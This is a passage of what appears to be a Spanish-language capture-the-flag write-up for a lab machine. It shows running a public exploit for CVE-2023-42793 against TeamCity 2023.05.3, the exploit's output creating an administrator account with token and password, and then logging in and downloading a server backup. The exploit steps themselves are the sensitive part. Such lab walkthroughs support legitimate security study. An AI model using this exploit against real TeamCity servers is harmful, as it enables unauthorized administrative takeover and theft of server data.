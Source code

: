   # Explotación de TeamCity 2023.05.3
    
    Ejecutamos el `exploit` y nos da un usuario y `password`
    
    ```python
    python3 51884.py -u http://teamcity.runner.htb
    
    =====================================================
    *       CVE-2023-42793                              *
    *  TeamCity Admin Account Creation                  *
    *                                                   *
    *  Author: ByteHunter                               *
    =====================================================
    
    Token: eyJ0eXAiOiAiVENWMiJ9.T3RudmdKTVdZT29nZkp4MndSdlBwanZfVmRF.N2VhMDk0ZjktMGM2MS00OWE1LTkyZGQtZDllMmJhMjFiNTU1
    Successfully exploited!
    URL: http://teamcity.runner.htb
    Username: city_admind2GF
    Password: Main_password!!**
    ```
    
    Una vez tenemos la `contraseña` y `usuario` podemos **iniciar sesión**, una vez iniciemos sesión seremos `admin` así que tenemos la capacidad de descargar `backup`
    
    ![image.png](/assets/images/2024-08-07-runner-medium/image%202.png)
    
    Nos dirigiremos `administración` y le daremos a la sección de `backup`. Una vez hecho esto le daremos al botón `Start Backup` y nos saldrá un `.zip` que nos podemos descargar
    
    ![image.png](/assets/images/2024-08-07-runner-medium/image%203.png)
    